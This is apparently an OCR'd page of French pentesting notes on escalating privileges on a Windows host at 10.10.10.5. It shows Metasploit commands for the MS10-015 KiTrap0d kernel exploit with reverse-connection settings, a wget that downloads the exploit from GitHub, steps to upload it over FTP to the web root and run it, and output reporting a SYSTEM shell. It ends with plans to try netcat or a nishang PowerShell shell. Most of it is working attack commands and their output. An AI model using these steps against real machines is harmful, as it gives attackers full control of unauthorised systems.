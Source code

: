 ```
[*] Post module execution completed
msf post(multi/recon/local_exploit_suggester) > 
```



# Exploit with MS10-015.exe
```
use exploit/windows/local/ms10_015_kitrap0d
set session 1
set LHOSTS 10.10.10.5
set LPORT 4446
exploit

Pas de session
...
```
KO


# Exploit with MS10-015.exe

wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-015/MS10-015.zip
upload exploit with ftp
cd c:\inetpub\wwwroot
upload exploit with ftp, execute 
```
>vdmallowed.exe
vdmallowed.exe
--------------------------------------------------
Windows NT/2K/XP/2K3/VISTA/2K8/7 NtVdmControl()->KiTrap0d local ring0 exploit
-------------------------------------------- taviso@sdf.lonestar.org ---


[+] Spawning a shell to give SYSTEM token (do not close it)
[?] CreateProcess("C:\WINDOWS\SYSTEM32\CMD.EXE") => 2188
[?] GetVersionEx() => 6.1
[?] NtQuerySystemInformation() => \SystemRoot\system32\ntkrnlpa.exe@82855000
[?] Searching for kernel 6.1 signature { 64, a1, ... } ...
[+] Signature found 0xcde8d bytes from kernel base
[+] Starting the NTVDM subsystem by launching MS-DOS executable
[?] CreateProcess("C:\WINDOWS\SYSTEM32\DEBUG.EXE") => 2248
[?] OpenProcess(2248) => 0x2c
[?] Injecting the exploit thread into NTVDM subsystem @0x2c
[?] WriteProcessMemory(0x2c, 0x1040000, "VDMEXPLOIT.DLL", 14);
[?] WaitForSingleObject(0x38, INFINITE);
[?] GetExitCodeThread(0x38, 0012FF0C); => 0x77303074
[+] The exploit thread reports exploitation was successful
[+] w00t! You can now use the shell opened earlier
[+] Press any key to exit...

No in/out
KO
```
Je ne récupère pas la main, pb de shell ?
On tente avec un nc direct ?
Puis un powershell nishang
